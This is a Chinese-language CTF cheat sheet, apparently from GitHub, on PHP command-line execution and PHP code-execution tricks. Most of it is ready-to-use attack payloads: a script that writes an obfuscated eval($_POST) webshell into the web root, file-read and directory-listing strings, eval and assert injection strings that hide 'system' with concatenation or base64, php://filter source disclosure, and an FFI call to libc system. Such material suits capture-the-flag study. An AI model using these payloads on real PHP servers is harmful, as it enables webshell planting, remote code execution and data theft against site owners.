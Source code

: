 在线php运行：<https://www.jyshare.com/compile/1/>

php执行的方式，php -r 不需要php后缀，可能出现题型。
```
php：这是最基本的PHP命令，用于执行指定的PHP脚本文件。例如，php script.php 会执行名为 script.php 的PHP脚本。

php -f：这个命令用于执行一个PHP脚本文件，与不带 -f 参数的 php 命令类似。两者都可以运行给定的PHP文件，没有限制可以执行哪种文件，文件名也不必用 .php 作为扩展名。

php -r：这个命令用于在命令行中直接传递PHP代码执行。必须特别注意shell变量的替代及引号的使用。使用 -r 参数后不需要开始和结束标识符，并且加上它们还会导致语法错误。例如，php -r 'print_r(get_defined_constants());' 会直接执行括号内的PHP代码。

区别：
php 和 php -f 都用于执行PHP脚本文件，但 -f 参数可以明确指示PHP解释器直接从指定的文件中读取并执行代码。
php -r 用于在命令行中直接执行一行或多行PHP代码，而不是从文件中读取。这种方式适合快速测试小段代码或在脚本中嵌入PHP代码。
使用 php -r 时，不需要提供PHP代码的开始和结束标签 <?php ?>，而 php 和 php -f 执行的是完整的PHP脚本文件，这些文件中包含了这些标签。


php -f 配合下面文件进行写木马：
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

## **php常见特殊函数和绕过**
**1、文件包含函数 绕过一些禁用函数**
如果是eval($_POST('c'))，直接蚁剑连，用插件绕过
```
c=highlight_file("config.php");        //文件内容包含高亮。
c=highlight_file($_GET[1])&1=flag.php

c=show_source('flag.php');

c=print_r(scandir(dirname('__FILE__')));
// ( [0] => 。 [1] => .. [2] => flag.php [3] => index.php ) 
//要读倒数第二个，即反转后读下一个。
c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));

c=var_dump(file('flag.php'));
c=readfile('flag.php');
c=print_r(file('flag.php'));
c=show_source(file(''flag.php));
c=echo file_get_contents('flag.php');
c=include('/flag.txt');
c=require('/flag.txt');
c=require_once('/flag.txt');

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

```
2、查目录
```
c=var_dump(scandir('/'));

c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}//glob的作用是规定后面的匹配格式，查找匹配的文件路径模式

c=$a=scandir("/");foreach($a as $key=>$value){echo $key."=>".$value;}

c=var_export(scandir('/'));exit(); 
//停掉后面的限制函数如ob_end_clean()会清除缓冲不会输出内容。会输出很多???????????
c=include('/flag.txt');die();
```
```
print_r(file_get_contents(/flagg')); //打印获取文件的内容
var_dump(scandir(/);  //查看根目录
var_dump(scandir(chr(47))); //查看根目录

var_dump(file_get_contents(/flagg')); //打印获取文件的内容。file_get_content()也可以读取php://filter伪协议。
var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)));  //绕过打印flag
```

根目录下有/readflag程序
```
c=$ffi = FFI::cdef("int system(char *command);", "libc.so.6");$a='/readflag > 1.txt';$ffi->system($a);exit();
然后访问ip/1.txt
```


^
## **代码执行函数**
eval('system('cat /flag'); ');         //会将字符串当作PHP代码执行，注意分号。
eval('system('cat /flag')?> ');    // 分号可以用?>替换。 且后面代码也会正常执行。

```
对于eval($_GET('c'));题

/?c=eval($_GET[a]);&a=system('cat flag.php');  //绕过eval有限制。
/?c=eval($_GET[a])?>&a=system('cat flag.php');  //绕过eval有限制。过滤了;
eval('eval($_GET[a])?>')  

/?c=include"$_GET[a]"?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了(
/?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php //过滤了( 双引号"
```
eval("$x='sys';  $y='tem';  $z=$x.$y;  $z('cat config.php');" );         //绕过过滤。

eval('base64_decode("c3lzdGVt");$b=base64_decode("Y2F0IGNvbmZpZy5waHA=");$a($b);');        //base64编码绕过。

assert()可以将整个字符串参数当作php参数执行
而类似的eval()函数是执行合法的php代码，eval()里的引号必须是双引号，因为单引号不能解析字符串里的变量$str，且必须以分号结尾，函数调用除外。
```
<?php
echo eval(echo 1);
?>
不行，需改成下面：
<?php
echo eval("echo 1;");
?>
```


^
^
当前目录文件全部看cat *
命令执行找flag文件：find / -name flag*
递归搜当前目录下内容：grep -r "flag{" .

php内的"\"在做代码执行的时候，会识别特殊字符串，绕过黑名单。
如\system


^
## **命令拼接**
```
if (isset($_GET['page'])) {
	$page = $_GET['page'];
} 

$file = "templates/" . $page . ".php";

assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```
闭合，拼接，注释
```
').phpinfo();//
').system("cat templates/flag.php");//
').system('cat templates/flag.php');//
').system('ls');//
```


^
## **程序在过滤后没有退出，程序还能执行**
```
error_log（"Hacking attempt.");
header（'Location:/error/');

assert（"(int)$pi ==3")
```
没有使用die ，exit等函数，assert还能执行，$pi直接代码执行。
